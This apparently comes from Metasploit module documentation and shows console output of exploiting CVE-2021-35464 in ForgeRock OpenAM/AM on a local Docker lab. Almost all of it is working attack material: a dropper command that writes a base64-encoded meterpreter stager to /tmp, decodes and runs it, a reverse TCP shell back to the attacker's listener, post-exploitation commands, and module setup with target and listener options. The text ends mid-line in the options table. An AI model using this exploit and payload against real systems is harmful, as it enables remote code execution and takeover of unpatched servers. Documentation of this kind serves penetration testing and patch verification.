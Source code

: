 ```
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > check
[*] 127.0.0.1:7080 - The target appears to be vulnerable.
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[+] Successfully executed command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwSAAFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/YmhYe.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/wucGF' < '/tmp/YmhYe.b64' ; chmod +x '/tmp/wucGF' ; '/tmp/wucGF' ; rm -f '/tmp/wucGF' ; rm -f '/tmp/YmhYe.b64'
[*] Sending stage (3012548 bytes) to 172.18.0.2
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:52990) at 2021-07-09 16:15:05 -0500

meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > shell
Process 490 created.
Channel 1 created.
pwd
/usr/local/tomcat
^Z
Background channel 1? [y/N]  y
meterpreter > sysinfo
Computer     : 172.18.0.2
OS           : Debian 10.9 (Linux 5.8.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ForgeRock AM 6.5.3 on Ubuntu 20.04.2 x64 with Docker version 20.10.7
```
msf6 > use exploit/multi/http/cve_2021_35464_forgerock_openam
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > set LHOST docker0
LHOST => 172.18.0.1
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > set RPORT 8080
RPORT => 7080
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local
```